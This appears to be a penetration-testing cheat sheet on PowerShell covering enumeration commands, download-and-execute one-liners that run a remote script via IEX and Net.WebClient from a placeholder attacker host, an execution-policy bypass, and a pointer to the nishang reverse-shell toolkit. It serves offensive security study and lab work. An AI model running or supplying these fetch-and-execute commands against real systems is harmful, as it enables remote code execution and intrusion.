 # PowerShell

PowerShell.exe full path: `C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

Show all current environment variables in PowerShell: `dir env:` \(in CMD just type `set`\)

Get tons of computer info in PowerShell: `Get-ComputerInfo`

Fully PowerShell version of `wget`. Retrieve file and execute remote code after downloading:

```text
powershell "Invoke-Expression(New-Object Net.Webclient).downloadString('http://<ip>:<port>/<filename>')"
```

Can also use `wget https://zweilosec.gitbook.io/hackers-rest -OutFile C:\Windows\Temp\out.html` to save the file to the local machine.  `wget` is an alias for `Invoke-WebRequest`. `-Outfile` is needed to save the file to disk.

PowerShell Script Execution Bypass: \[can embed in php too! TODO: write script example of this\]:

```text
echo IEX(New-Object Net.WebClient).DownloadString(http://<ip:port/filename.ps1>) | powershell -noprofile -
```

PowerShell reverse shell and exploit scripts: `nishang` To learn how to use this tool check out Ippsec's video on youtube: [Ippsec:HacktheBox - Optimum](https://www.youtube.com/watch?v=kWTnVBIpNsE)

